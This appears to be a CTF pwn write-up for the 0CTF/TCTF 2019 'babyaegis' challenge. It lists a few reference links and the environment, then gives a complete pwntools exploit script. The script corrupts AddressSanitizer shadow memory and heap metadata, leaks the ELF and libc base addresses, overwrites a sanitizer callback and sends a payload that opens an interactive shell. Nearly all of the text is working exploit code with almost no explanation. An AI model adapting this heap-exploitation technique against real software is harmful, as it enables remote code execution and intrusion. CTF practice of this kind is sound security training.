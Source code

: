 # babyaegis

参考链接：

[https://www.anquanke.com/post/id/175556#h2-8 ]( https://www.anquanke.com/post/id/175556#h2-8 )

[https://github.com/balsn/ctf_writeup/tree/master/20190323-0ctf_tctf2019quals](https://github.com/balsn/ctf_writeup/tree/master/20190323-0ctf_tctf2019quals)

[https://ray-cp.github.io/archivers/0CTF_2019_PWN_WRITEUP#aegis](https://ray-cp.github.io/archivers/0CTF_2019_PWN_WRITEUP#aegis)

环境是`ubuntu18.04 libc2.27`

```python
from pwn import *

def debug(addr,PIE=True):
	if PIE:
		text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[4], 16)
		gdb.attach(p,'b *{}'.format(hex(text_base+addr)))
	else:
		gdb.attach(p,"b *{}".format(hex(addr)))

def cmd(command):
	p.recvuntil("Choice: ")
	p.sendline(str(command))

def add(sz,content,id):
	cmd(1)
	p.recvuntil("Size: ")
	p.sendline(str(sz))
	p.recvuntil("Content: ")
	p.send(content)
	p.recvuntil("ID: ")
	p.sendline(str(id))


def show(idx):
	cmd(2)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
def edit(idx,content,id):
	cmd(3)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
	p.recvuntil("Content: ")
	p.send(content)
	p.recvuntil("ID: ")
	p.sendline(str(id))
def dele(idx):
	cmd(4)
	p.recvuntil("Index: ")
	p.sendline(str(idx))
def secret(addr):
	cmd(666)
	p.recvuntil("Lucky Number: ")
	p.sendline(str(addr))

def main(host,port=10405):
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./aegis")
		# debug(0x0000000001146E0)
	
	add(0x10,"A"*0x8,0x123456789abcdef)
	# 0x602000000000 >> 3 + 0x7fff8000
	secret(0xc047fff8008-4)
	# overwrite user_requested_size
	edit(0,'\x02'*0x12,0x123456789)
	edit(0,'\x02'*0x10+p64(0x02ffffff00000002)[:7],0x01f000ff1002ff)
	dele(0)
	add(0x10,p64(0x602000000018),0)
	
	# leak elf base
	show(0)
	p.recvuntil("Content: ")
	elf = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00'))-0x114ab0
	info("elf :" + hex(elf))
	# leak libc addr
	edit(1,p64(elf+0x347DF0)[:2],(elf+0x347DF0)>>8)
	show(0)
	p.recvuntil("Content: ")
	libc = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00'))-0xe4fa0
	info("libc :" + hex(libc))
	
	#write gets to sanitizerL20InternalDieCallbacksE
	edit(1,p64(elf+0xFB08a0)[:7],0)
	gdb.attach(p,"b *{}".format(0x10a38c+libc))
	
	cmd(3)
	p.recvuntil("Index: ")
	p.sendline(str(0))
	p.recvuntil("Content: ")
	p.send(p64(0x800b0+libc)[:7])
	p.recvuntil("ID: ")
	p.sendline(str(0))
	
	payload = "A"*0x1b7+p64(libc+0x10a38c)+'\x00'*0x100
	p.sendline(payload)
	p.interactive()

if __name__ == "__main__":
	main(args['REMOTE'])

```